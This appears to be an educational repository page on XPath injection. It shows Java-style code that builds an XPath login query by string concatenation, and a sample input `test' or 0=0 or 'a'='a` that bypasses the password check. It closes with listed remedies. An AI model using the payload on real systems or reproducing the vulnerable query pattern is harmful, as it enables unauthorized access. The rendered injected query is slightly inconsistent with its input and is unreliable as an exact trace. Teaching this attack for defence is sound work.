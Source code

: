 <p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/xpath-injection/main/xpath-injection.png"></p>

A threat actor may alter the XML path language (XPath) query to read data on the target (This is more dangerous than SQL injection because it may allow querying the whole database - XML document)

(XPath is a language that queries XML documents - the XPath expression is a locator)

## Example #1
1. Threat actor submits a malicious XPATH query to a vulnerable target
2. The target parses the malicious query (that contains expressions called a locator) and returns data from the database (XML document)

## Code
#### Target logic
```
# database (XML document)
<users>
	<user>
		<name>test</name>
		<pass>P@ssw0rd!01</pass>
	</user>
</users>


# Code
...
String xpath_query = "//user[name/text()='" + get("name") + "' And pass/text()='" + get("pass") + "']";
...
```

#### Target-in
```
name: test
pass: P@ssw0rd!01

//String xpath_query = "//user[name/text()='test' And pass/text()='P@ssw0rd!01']";
```

#### Target-Out
```
Welcome test
```

#### Target-in
```
name: test' or 0=0 or 'a'='a
pass: 0

//String xpath_query = "//user[(name/text()='test' or 0=0) or ('a'='a' And pass/text()='P@ssw0rd!01')]";
```

#### Target-Out
```
Welcome test
```

## Impact
High

## Names
- XPATH Injection

## Risk
- Read data

## Redemption
- Input validation
- Parametrized queries

## ID
6c020d48-9b20-4011-a513-36676994ee8e

## References
- [wiki](https://en.wikipedia.org/wiki/xpath)

